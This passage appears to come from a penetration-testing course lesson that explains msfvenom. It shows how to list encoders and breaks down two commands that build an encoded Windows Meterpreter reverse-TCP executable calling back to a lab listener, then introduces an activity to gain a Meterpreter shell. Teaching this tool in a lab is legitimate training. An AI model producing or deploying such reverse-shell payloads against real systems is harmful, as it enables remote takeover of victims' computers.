      - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### Msfvenom Command Structure

Now, let's cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: Designates the architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use
      - `-f exe`: Indicates the file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, refer to the command that we used in the preceding lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type


In the activity that follows, you'll build a custom command in an exploitation attack.

### 03. Msfvenom Payloads

Let's generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 
